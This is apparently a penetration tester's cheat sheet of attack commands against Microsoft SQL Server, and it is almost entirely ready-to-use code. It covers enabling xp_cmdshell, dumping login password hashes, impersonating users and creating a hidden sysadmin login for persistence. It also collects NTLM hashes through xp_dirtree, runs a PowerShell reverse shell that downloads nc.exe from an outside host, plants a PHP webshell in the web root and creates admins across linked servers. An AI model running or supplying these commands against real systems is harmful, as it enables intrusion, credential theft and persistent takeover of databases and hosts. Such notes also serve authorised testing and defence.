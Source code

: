 # mssql-cmd

% mssql, Microsoft SQL Server, 1433
#plateform/linux  #target/remote  #protocol/sql  #port/1433 #cat/ATTACK



## configure - turns on advanced options
```
sp_configure 'show advanced options', '1'
RECONFIGURE
```

## configure -  enable xp_cmdshell 
```
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```

## configure -  enable Ole Automation Procedures
```
sp_configure 'Ole Automation Procedures', 1
RECONFIGURE
```

## enum - Get databases
master, tempdb, model, msdb arr default DB
```
SELECT name FROM master.dbo.sysdatabases
```

## enum - Get tables of a databases
```
SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES;
```

## enum - select records of a table
```
SELECT * FROM <databaseName>.dbo.<tableName>
```

## enum - Get users
```
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;
```

## enum - check admin rights
```
SELECT SYSTEM_USER;
SELECT IS_SRVROLEMEMBER('sysadmin');
```

## enum - identify users that we can impersonate
```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';
```

## enum - check readfile priv (OPENROWSET)
```
SELECT * FROM fn_my_permissions(NULL, 'SERVER') WHERE permission_name='ADMINISTER BULK OPERATIONS' OR permission_name='ADMINISTER DATABASE BULK OPERATIONS';
```

## privesc - impersonate user
```
EXECUTE AS LOGIN = '<user|sa>'
```

## persist - Create user with sysadmin privs
```
CREATE LOGIN jubeaz WITH PASSWORD = '<password|Jube@z123!'
sp_addsrvrolemember 'jubeaz', 'sysadmin'
```

## execute command
```
EXEC master..xp_cmdshell '<cmd|whoami /all>'
```
## Hash gathering - 
sudo impacket-smbserver share ./ -smb2support
sudo responder -I tun0
```
xp_dirtree '\\<ip>\any\thing'
exec master.dbo.xp_dirtree '\\<ip>\any\thing'
EXEC master..xp_subdirs '\\<ip>\anything\'
EXEC master..xp_fileexist '\\<ip>\anything\'
```

## reverseshell
python 'import base64; print(base64.b64encode((r"""(new-object net.webclient).downloadfile("http://192.168.43.164/nc.exe", "c:\windows\temp\nc.exe"); c:\windows\temp\nc.exe -nv 192.168.43.164 9999 -e c:\windows\system32\cmd.exe;""").encode("utf-16-le")).decode())'
```
exec xp_cmdshell 'powershell -exec bypass -enc <b64_payload>
```


## read file (OPENROWSET)
```
SELECT * FROM OPENROWSET(BULK N'<path|C:/Windows/System32/drivers/etc/hosts>', SINGLE_CLOB) AS Contents
```

## write file
enable Ole Automation Procedures
```
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
```

## Trustable Links - Get Linked Servers (exec)
```
EXEC sp_linkedservers
```

## Trustable Links - Get Linked Servers (select)
```
select * from master..sysservers
```

## Trustable Links - Execute queries
```
select * from openquery("<srvname>", '<query>')
```

## Trustable Links - Get databases
master, tempdb, model, msdb arr default DB
```
SELECT * FROM OPENQUERY("<srvname>",'SELECT name FROM master.dbo.sysdatabases')
SELECT name FROM master.dbo.sysdatabases
```

## enum - Get tables of a databases
```
SELECT * FROM OPENQUERY("<srvname>",'SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES')
```

## Trustable Links - select records of a table
```
SELECT * FROM OPENQUERY("<srvname>",'SELECT * FROM <databaseName>.dbo.<tableName>')
```

## Trustable Links - create remote admin
```
EXECUTE('EXECUTE(''CREATE LOGIN <login|jubeaz> WITH PASSWORD = ''''<password|Jub@z123!>'''' '') AT "<remote_srvname>"') AT "<local_srvname>"
EXECUTE('EXECUTE(''sp_addsrvrolemember ''''<login|jubeaz>'''' , ''''sysadmin'''' '') AT "<remote_srvname>"') AT "<local_srvname>"
```

